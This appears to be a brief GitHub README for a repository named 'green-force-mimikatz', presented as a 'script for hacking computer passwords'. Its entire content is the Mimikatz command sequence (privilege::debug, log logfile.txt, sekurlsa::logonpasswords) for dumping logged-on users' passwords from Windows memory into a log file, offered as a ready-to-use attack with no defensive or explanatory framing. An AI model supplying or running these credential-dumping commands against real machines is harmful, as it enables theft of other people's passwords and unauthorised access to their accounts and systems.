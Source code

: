 # green-force-mimikatz

             .----.   @   @
            / .-"-.`.  \v/
            | | '\ \ \_/ )
          ,-\ `-.' /.'  /
          '---`----'----'


Mimikatz_trunk this is script for hacking computer passwords:

Open mimikatz.exe

Run commands in mimikatz:

> mimikatz # privilege::debug

> mimikatz # log logfile.txt

> mimikatz # sekurlsa::logonpasswords

And you will have user passwords!
